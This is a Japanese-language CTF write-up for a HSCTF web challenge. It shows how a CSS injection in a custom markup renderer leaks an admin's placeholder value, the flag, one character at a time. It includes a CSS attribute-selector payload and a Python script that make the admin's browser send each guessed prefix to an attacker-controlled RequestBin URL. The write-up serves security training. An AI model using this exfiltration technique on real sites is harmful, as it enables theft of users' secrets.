




# markdown-plus-plus:web:480pts
Pfft, who needs Markdown? Just roll your own markup language - definitely no bugs in sight.  
[http://web1.hsctf.com:8002](http://web1.hsctf.com:8002/)  
Downloads  
[md++.zip](md++.zip)  

# Solution
URLとソースが渡される。  
アクセスすると、markdownのオリジナルバージョンが動いていた。  
入力したものを加工して表示してくれるようだ。  
Create Page  
[site1.png](site/site1.png)  
使い方は`/help`に書かれている。  
View Page  
[site2.png](site/site2.png)  
さらに`/markdown-plus-plus`で報告して、adminに見てもらうこともできる。  
[site3.png](site/site3.png)  
謎の機能として、ユーザ名を変更できる。  
  
これはcookieに保存されるので非常に怪しいが、HttpOnlyであるためXSSで盗めそうにない。  
ページのソースをよく見ると以下のようにプレースホルダーとしてレンダリングされている。  
```html
~~~
<form id="login-form" action="/login" method="POST">
	<input name="username" placeholder="Satoki">
	<input type="submit" value="Login">
</form>
~~~
```
adminのplaceholderにflagが書かれていると予測する。  
次に、markdownのオリジナルバージョンを動かしてみる。  
`[h=red akairo]`と入力すると、以下のようにtextに色がついた。  
  
CSSに色を書き込んでいそうなので、CSSiを狙う。  
ブラウザの開発者ツールで要素のCSSを確認しながら試行錯誤すると、`[h=red;}*{color:blue} akaiyo]`で以下のような表示になった。  
  
インジェクションできることがわかったので、セレクタで要素をリークすればよい。  
リクエスト受け取り用のサーバは[RequestBin.com](https://requestbin.com/)を利用した。  
`placeholder`の`Satoki`をリークするペイロードは以下になる。  
```
[h=red;}input[placeholder^='Satoki']{background-image:url(https://xxxxxxxxxxxxx.x.pipedream.net?s=Satoki);} Satoki]
```
これを先頭から一文字ずつリークするように加工し、adminに送ればよい。  
文字がヒットした場合リクエストが返ってくるはずである。  
以下のcssi.pyで行う。  
```python
import base64
import requests

flag = ""
my_server = "https://xxxxxxxxxxxxx.x.pipedream.net"

for c in "_{}abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789":
    css_i = f"[h=red;}}input[placeholder^='{flag + c}']{{background-image:url({my_server}?s={flag + c});}} {flag + c}]"
    res = requests.post("http://web1.hsctf.com:8000/markdown-plus-plus", data={"url": f"http://web1.hsctf.com:8002/display#{base64.b64encode(css_i.encode()).decode()}"})
    #print(res.status_code)
    #print(res.text)
```
リクエストを受け取るごとに変数`flag`に文字を追加していく。  
複数回実行すると、以下のように一文字ずつリクエストが取得できる(下から上の順)。  
  
最終的に`/?s=flag{waterfall_bfutsftfejpk}`のリクエストを得た。  
これがflagとなった。  

## flag{waterfall_bfutsftfejpk}